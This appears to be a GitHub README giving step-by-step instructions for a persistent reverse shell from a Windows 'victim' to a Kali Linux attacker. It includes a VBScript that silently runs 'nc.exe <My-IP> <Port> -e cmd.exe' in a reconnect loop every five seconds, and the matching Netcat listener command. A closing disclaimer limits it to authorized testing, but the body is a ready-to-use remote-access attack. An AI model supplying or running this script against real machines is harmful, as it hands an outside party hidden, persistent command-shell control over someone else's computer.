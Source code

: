 # Reverse Shell Using Netcat and VBScript

This guide explains how to set up a **reverse shell** from a **Windows victim machine** to a **Kali Linux attacker machine** using **Netcat** (`nc.exe`). The connection will be maintained and automatically re-established if lost, using a **VBScript** that checks the connection every 5 seconds.

---

## Prerequisites

- **Netcat (`nc.exe`)**: A simple, reliable tool to establish reverse shells.
- **VBScript**: A script that will monitor and reconnect the reverse shell every 5 seconds.
- **Windows Victim Machine**: The target machine that will execute the reverse shell.
- **Kali Linux Attacker Machine**: The machine that listens for the incoming reverse shell connection.

---

## Workflow

### Step 1: Prepare `nc.exe` on the Attacker Machine

1. On your **Kali Linux** machine, navigate to the directory where you want to store the **Netcat executable** (`nc.exe`):

    ```bash
    cp /usr/share/windows-resources/binaries/nc.exe .
    ```

    This copies the `nc.exe` binary to your current directory.

---

### Step 2: Create the VBScript for Reconnection

2. On the **Windows victim machine**, create a new file named `reconnect.vbs` in the same directory where `nc.exe` is located.

3. Open **Notepad**, and paste the following VBScript code:

```vbscript
Set objShell = CreateObject("WScript.Shell")

Do
    ' Replace <My-IP> with your IP address and <Port> with your desired port number
    objShell.Run "cmd.exe /c nc.exe <My-IP> <Port> -e cmd.exe", 0, True
    WScript.Sleep 5000 ' Wait for 5 seconds before retrying
Loop
```

4. **Save the file** as `reconnect.vbs`.

    - Replace `<My-IP>` with your **Kali Linux machine's IP address**.
    - Replace `<Port>` with the port number you want to use for the reverse shell (e.g., `4444`).

---

### Step 3: Set Up the Listener on Kali Linux

5. On your **Kali Linux** machine, run the following command to set up the **Netcat listener** on the desired port:

    ```bash
    nc -lvnp <Port>
    ```

    Replace `<Port>` with the port number specified in the VBScript.

---

### Step 4: Execute the Reverse Shell on the Victim Machine

6. On the **Windows victim machine**, **double-click** the `reconnect.vbs` file to run the script. The script will:

   - Execute the `nc.exe` reverse shell, which connects back to your Kali machine at the specified IP and port.
   - If the connection is lost, the script will automatically attempt to reconnect every 5 seconds.

---

### Step 5: Interaction with the Reverse Shell

7. Once the connection is established, you'll have access to the **Windows CMD shell** of the victim machine. You can interact with it through the Netcat listener on your **Kali machine**.

### Legal Disclaimer

This reverse shell guide is intended for **ethical hacking** and **authorized penetration testing** only. Unauthorized access to computer systems is illegal and unethical. Always obtain explicit written permission before conducting any tests or activities that could impact a network or system.
